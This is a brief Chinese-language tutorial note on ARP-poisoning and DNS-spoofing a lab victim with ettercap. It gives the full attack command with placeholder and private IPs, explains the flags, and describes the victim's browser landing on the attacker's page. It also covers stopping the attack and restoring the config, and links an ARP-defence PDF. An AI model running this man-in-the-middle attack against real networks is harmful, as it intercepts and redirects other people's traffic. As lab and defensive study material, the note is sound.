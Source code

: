 # Ettercap劫持
```markdown
ettercap -i eth0 -Tq -M arp:remote -P dns_spoof /192.168.0.128// /192.168.0.1// >b.txt
 
 
 ettercap -i eth0 -Tq -M arp:remote -P dns_spoof /被攻击者ip// /被攻击者网关// 
 -i：网卡
 -T：文本模式
 -q：安静模式
 -M：执行mitm攻击
 -P：plugin 开始该插件
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26140423/1674142760791-72ab5aed-6eb7-4fc5-87c7-b405a38182ec.png#averageHue=%23272b39&clientId=u01f8c95c-ae52-4&from=paste&height=82&id=u137168f8&originHeight=92&originWidth=793&originalType=binary&ratio=1&rotation=0&showTitle=false&size=14575&status=done&style=none&taskId=ud9859e55-b68d-44d6-9f9b-e265e1aacef&title=&width=704.8888888888889)

# 查看
> 此时打开浏览器, 随便打开网址, 都会返回到 Apache这个页面


# 停止攻击
> 直接Ctrl +C 


# 回复配置文件
> 删除原来添加 内容的就行

或者
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26140423/1674143183757-4b48b75d-baad-4f6b-a0f1-8c3ae6223d0b.png#averageHue=%23252833&clientId=u01f8c95c-ae52-4&from=paste&height=276&id=uc2ed9524&originHeight=310&originWidth=616&originalType=binary&ratio=1&rotation=0&showTitle=false&size=46965&status=done&style=none&taskId=u2b32ff6b-0a99-4e61-9bb8-ac00a93999c&title=&width=547.5555555555555)


# ARP防御
[ARP攻击防御.pdf](https://www.yuque.com/attachments/yuque/0/2023/pdf/26140423/1674261741966-e568f42d-f0fd-47ee-b8c3-b39700b331ee.pdf)
